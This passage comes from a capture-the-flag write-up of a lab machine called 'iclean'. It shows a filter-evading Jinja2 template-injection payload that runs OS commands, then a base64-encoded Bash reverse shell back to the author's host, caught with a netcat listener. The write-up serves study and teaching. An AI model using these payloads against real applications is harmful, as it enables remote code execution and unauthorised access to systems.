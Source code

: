 ```

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

I’ll explain exactly how this payload works in [this video](https://www.youtube.com/watch?v=VBifwXFQJMQ):

On sending that, the output of the `id` command is present:

![image-20240713131129672](/img/image-20240713131129672.png)

#### Shell

Just sending a [Bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) here doesn’t work. I think the special characters are getting in the way. I’ll make a bash64 encoded string of a Bash reverse shell:

```

oxdf@hacky$ echo 'bash -c  "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 -w0 ; echo
YmFzaCAtYyAgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSIK

```

I’ll test it to make sure it works on my machine, and then send it via the SSTI:

![image-20240713131456705](/img/image-20240713131456705.png)

It hangs, but at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.12 40982
bash: cannot set terminal process group (1222): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ 

```

Interestingly, `script` fails to get a PTY for a [shell upgrade](​https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@iclean:/opt/app$ script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
This account is currently not available.
Script done.
www-data@iclean:/opt/app$

```
